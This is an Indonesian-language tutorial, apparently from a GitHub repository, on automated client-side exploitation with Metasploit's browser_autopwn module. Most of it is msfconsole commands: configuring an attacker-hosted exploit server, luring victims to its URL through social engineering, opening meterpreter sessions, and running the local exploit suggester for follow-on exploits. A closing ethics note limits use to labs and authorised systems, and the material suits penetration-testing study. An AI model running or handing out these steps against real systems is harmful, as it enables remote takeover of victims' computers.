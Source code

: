 # Eksploitasi Otomatis dengan AutoPwn 

## A. Apa itu AutoPwn?

[AutoPwn](https://github.com/beefproject/beef/wiki/Metasploit#browser-autopwn) adalah fitur dari Metasploit yang secara otomatis memuat berbagai eksploit dan menyerang target berdasarkan kerentanannya, terutama melalui browser (client-side attack).

Modul terkait:

```
auxiliary/server/browser_autopwn
```

> Fitur ini sudah deprecated dalam versi baru, tetapi konsepnya masih digunakan dalam serangan berbasis exploit suggestion + exploit chaining.

Prasyarat:
- Kali Linux dengan Metasploit terinstal.
- Browser korban (misalnya `Windows 7` + `IE`, `Firefox` versi lama).
- Jaringan lokal/lab untuk pengujian.
- Pengetahuan dasar Metasploit.

### 1. Setup AutoPwn

1. Jalankan Metasploit:

   ```
   sudo msfconsole
   ```

2. Gunakan modul AutoPwn:

   ```
   use auxiliary/server/browser_autopwn
   ```

3. Atur parameter penting:

   ```
   set LHOST 192.168.1.10
   set SRVHOST 192.168.1.10
   set SRVPORT 80
   set SSL false
   set verbose true
   ```

   Keterangan:
   - `LHOST`: IP Attacker
   - `SRVHOST`:  IP hosting payload
   - `SRVPORT`: Port hosting payload
   - `SSL`: Non-SSL (HTTP)
   - `VERBOSE`: Menampilkan output lebih detail (debugging)
  
4. Jalankan:

   ```
   run
   ```

   Metasploit akan:
   - Menjalankan web server dengan banyak exploit browser.
   - Membuat payload otomatis.
   - Menunggu korban mengakses URL (via social `engineering`, `email`, `dsb`).
   - Menyuntikkan exploit dan mencoba men-deploy payload.
  
### 2. Teknik Penyebaran

Kirim URL ke korban: http://192.168.1.100/
- Jika browser rentan (`IE6`, `Firefox 10`, `dll`), exploit akan dikirim.
- Otomatis membuka sesi meterpreter.

### 3. Hasil Eksploitasi

Cek sesi:

```
sessions -l
```

Interaksi:

```
sessions -i 1
```

### 4. Alternatif: Auto Exploitation dengan Exploit Suggestion

Langkah:

```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```
 
Kemudian gunakan exploit yang disarankan:

```
use exploit/linux/local/xxx
set SESSION 1
run
```

## Catatan Etis dan Legal
- AutoPwn hanya boleh digunakan dalam lab atau lingkungan izin.
- Jangan digunakan terhadap sistem publik atau tanpa persetujuan.
- Risiko legal dan etika sangat tinggi jika digunakan sembarangan.

